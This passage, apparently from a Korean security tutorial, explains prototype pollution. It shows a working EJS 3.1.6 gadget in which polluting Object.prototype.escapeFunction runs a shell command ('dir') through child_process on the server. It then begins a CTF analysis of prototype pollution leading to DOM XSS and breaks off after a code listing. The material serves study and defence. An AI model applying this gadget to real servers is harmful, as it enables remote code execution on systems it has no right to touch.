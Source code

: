 - **모듈**: `ejs` (Embedded JavaScript templating)
- **버전**: `3.1.6`

```jsx
// app.js
const express = require('express');
const app = express();
const PORT = 3000;
app.set('views', __dirname);
app.set('view engine', 'ejs');

Object.prototype.client = 1;
**Object.prototype.escapeFunction = 'function(){};console.log(process.mainModule.require("child_process").execSync("dir").toString())';**

app.get('/', (req, res) => {
    res.render('index');
});

app.listen(PORT, () => {
    console.log(`Server is running on ${PORT}`);
});
```

`process.mainModule.require("child_process").execSync("dir").toString()` 구문을 통해 
서버에서 명령어가 실행되고, 결과가 출력됩니다.

![exploit demo](https://raw.githubusercontent.com/apple6342/hspace-io.github.io/main/assets/img/proto/image.png)

---

### **Prototype Pollution → DOM XSS**

**L3akCTF 2025**에서 출제된 [**NotoriousNote**](https://ctf.l3ak.team/challenges#NotoriousNote-64) 문제는
**Prototype Pollution을 통해 DOM XSS로 이어질 수 있음을 보여주는 좋은 사례**입니다.

### index.js 코드 분석

```jsx
// index.js
document.addEventListener('DOMContentLoaded', function() {
    const [_, query] = [window.location, QueryArg.parseQuery(window.location.search)];
    const { note: n } = query;

    const actions = [
        () => console.debug(n), 
        () => {
            const el = document.getElementById('notesPlaceholder');
            if (n) {
                const renderNote = txt => `<div class="note-item">${sanitizeHtml(txt)}</div>`;
                el.innerHTML += renderNote(n);
            }
        }
    ];

    actions.forEach(fn => fn());
});
```
